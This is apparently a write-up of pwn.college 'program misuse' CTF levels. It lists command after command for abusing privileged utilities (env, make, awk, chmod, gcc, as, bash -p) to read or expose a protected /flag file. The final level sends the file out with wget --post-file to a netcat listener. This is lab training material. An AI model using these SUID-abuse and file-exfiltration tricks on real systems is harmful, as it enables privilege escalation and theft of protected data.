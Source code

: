 # pwn-college-writups-fundamentals-program-misuse  

more  
less  
tail  
head  
cat  
emuc  
vim  
nano  
rev — prints reverse text of the file  
od — prints the octal format of the text  
hd — gives a hex dump of the file  
xxd — produces three-column output by default: file offsets, the data in hex, and the data as text  
base32 — prints base32 encoded text  
base64 — prints base64 encoded text  
split — splits larger files into smaller files which would have higher permissions  
gzip — zips the file — can be read with zcat command  
bzip2 — bzips the given file — can be read by bzgrep command  
zip — zips the file — read by zgrep  
tar — zips the file in a different format — read by tar xvf file.tar.gz -O | grep "text”  
ar — a Unix utility that maintains groups of files as a single archive file — can be read by — ar pv super.a
# Level24-32
$ env — controls the environment variable — can be read by env -i [command] [if needed commandfile] ( env DEBUG=1 cat /flag )

$ printf "solve:\n\tcat /flag" > tmp.makefile
  make -f tmp.makefile solve
$ nice -n 1 cat /flag 
$timeout — utility that runs a specified command and terminates it if it is still running after a given period of time. — can read files when the command is given — timeout 5 [command] [file]  
$ stdbuf — Run a command with modified I/O stream buffering — can read files by stdbuf -oL [command]  
$ setrch — change reported architecture in new program environment or set personality flags — files can be read by setarch --addr-no-randomize [command]
$ watch -x -b cat /flag 
$ socat -u file:/flag - (- means that print the content to stdout)
# Level 33-36
whiptail --textbox /flag 10 100   

awk '{print}'  /flag 

sed "/[[:space:]]/d" /flag 

ed -G /flag
# Level37-41
chown hacker /flag 

chmod 777 /flag 

cp /flag /dev/stdout (copy the content of the file flag to stdout)

mv /usr/bin/cat /usr/bin/mv  && mv /flag
# Level41-44: perl, python, ruby, bash
bash — shell scripting language — bash privilege can be maintained by — bash -p
# Level45-49: date, dmesg(Display or control the kernel ring buffer.), wc,gcc, as

date — gives the current date and time — can be used to read files by — date -f [filename]  
dmesg -print or control the kernel ring buffer — can be used to read files — by dmesg -F [filename]  
wc — print newline, word, and byte counts for each file — can be used to read files by — wc -files0-from=[filename]  
gcc — GNU project C and C++ compiler — Can be used to read a file by — gcc -x c -E "filename"  
AS — the portable GNU assembler — can be used to read files by — as @[filename]  
# Level 50  
wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" --post-file /flag http://127.0.0.1:4554/  
and set up a listener with nat cat  
nc -vlnp 4554  
and get the flag
